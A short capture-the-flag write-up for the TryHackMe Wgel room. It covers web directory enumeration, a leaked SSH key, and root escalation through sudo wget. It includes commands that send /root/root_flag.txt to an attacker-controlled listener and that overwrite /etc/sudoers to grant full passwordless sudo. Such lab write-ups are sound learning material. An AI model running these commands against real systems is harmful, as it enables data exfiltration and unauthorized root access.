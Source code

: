 
2024-07-01 16:46

Source: #tryhackme 

Tags: [[Privilege Escalation]] 

### HTTP

at port 80 Apache is running
on seeing the source code we see a comment that suggests a possible user on the server 
#### Dirbuster 

1. run gobuster on `http://<ip>`
2. we find /sitemap
3. run gobuster again on `http://<ip>/sitemap`
4. we find `.ssh` private `rsa` key of the user found in the source code
### SSH 

1. copy the content of the key to a file
2. run `chmod 600 file` to give the file appropriate permissions
3. login via [[SSH (22 port)]] as the user found in the source code, using the file as a private key (use -i to specify key)
### Privilege Escalation 

1. `sudo -l `works and tells us we can run `wget` with `sudo`
2. `gtfobins` has a exploit of file upload for wget
3. start listening using `nc` on port 9000 in a new terminal
4. according to `gtfobins` we craft an attack to directly get the root flag- 
```
sudo wget --post-file=/root/root_flag.txt http://<Attackbox IP>:9000
```
### Root Shell

1. `gtfobin` has exploits listed for file upload/download/read of `wget`
2. To get a shell with admin privileges we first get the file using the same way as with the flag, we edit the `sudoers` file locally by adding our own settings for the user.`/etc/sudoers`
```
#jessie  ALL=(root) NOPASSWD: /usr/bin/wget
jessie  ALL=(ALL) NOPASSWD: ALL
```
3. we raise a server with python3 in the path where our `sudoers` file is .
4. And in the wgel machine we execute the `wget`(to get the new `sudoers` file from our device to the wgel machine) command with `sudo` which will overwrite the `/etc/sudoers`. **We locate ourselves in the folder of `/etc/`** and execute:
```
sudo /usr/bin/wget <Attackbox IP>/sudoers --output-document=sudoers
```
5. then run `sudo su`



### References
[TryHackMe | Wgel CTF](https://tryhackme.com/r/room/wgelctf)